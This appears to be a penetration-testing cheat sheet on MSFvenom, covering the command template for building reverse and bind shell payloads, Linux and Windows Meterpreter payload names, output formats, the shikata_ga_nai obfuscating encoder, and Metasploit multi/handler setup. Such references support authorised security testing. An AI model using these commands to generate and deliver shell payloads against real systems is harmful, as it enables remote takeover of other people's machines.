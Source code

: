 ```yaml
---
layout: default
title: MSFvenom
tags:
    - bind
    - metasploit
    - meterpreter
    - msfpayload
    - obfuscation
    - reverse
    - shell
---
```


# MSFvenom
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## General Reverse Shell Format
```shell
msfvenom -p <payload> LHOST=<local IP> LPORT=<local port> [-f <format>] [-e <encoder>] [-b <bad chars>] [-a <arch>] [--platform <platform>]
```
- For bind shells replace `LHOST=<local IP>` with `RHOST=<remote IP>`
- `-b` bad chars follows format such as `"\x00\x0D"`
- `EXITFUNC=<exit technique>`
    - `process` use where master process restarts on exit; use with multi/handler
    - `thread` *(default)*; use where shellcode runs in sub-thread; exit results in working system
    - `seh` use where a structured exception handler (SEH) restarts the thread or process on error
    - `none`

---

## Payloads
```shell
msfvenom -l payloads
```

### Linux
```shell
linux/x64/meterpreter/bind_tcp            # Bind Meterpreter
linux/x64/meterpreter_bind_tcp            # Bind Meterpreter (stageless)
linux/x64/meterpreter/reverse_tcp         # Reverse Meterpreter
linux/x64/meterpreter_reverse_tcp         # Reverse Meterpreter (stageless)

linux/x64/shell/bind_tcp                  # Bind shell
linux/x64/shell/reverse_tcp               # Reverse shell
```
- `x86` also available

### Windows
```shell
windows/x64/meterpreter/reverse_tcp       # Reverse Meterpreter
windows/x64/meterpreter_reverse_tcp       # Reverse Meterpreter (stageless)
windows/x64/meterpreter/bind_tcp          # Bind Meterpreter
windows/x64/meterpreter_bind_tcp          # Bind Meterpreter (stageless)

windows/x64/shell/reverse_tcp             # Reverse shell
windows/x64/shell_reverse_tcp             # Reverse shell (stageless)
windows/x64/shell/bind_tcp                # Bind shell
windows/x64/shell_bind_tcp                # Bind shell (stageless)

windows/x64/powershell_bind_tcp           # Bind PowerShell (stageless)
windows/x64/powershell_reverse_tcp        # Reverse PowerShell (stageless)

windows/x64/exec                          # Execute command; use CMD=<cmd>
```
- Remove `/x64` for x86

---

## Formats
```shell
msfvenom -l formats
```
### Executable
```shell
asp, aspx, dll, elf, exe, jar, jsp, msi, psh, vba, vbs, war
```

### Transform
```shell
bash, c, csharp, dword, hex, java, js_be, js_le, perl, powershell, python, raw, ruby, vbapplication, vbscript
```

---

## Encoders
```shell
msfvenom -l encoders
```
```shell
x86/shikata_ga_nai                        # Polymorphic XOR Additive Feedback Encoder
```
- `-i` for number of iterations

---

## Metasploit Handler
```shell
use exploit/multi/handler
set PAYLOAD <payload>
set RHOST <remote IP>
set LHOST <local IP>
set LPORT <local port>
run
```
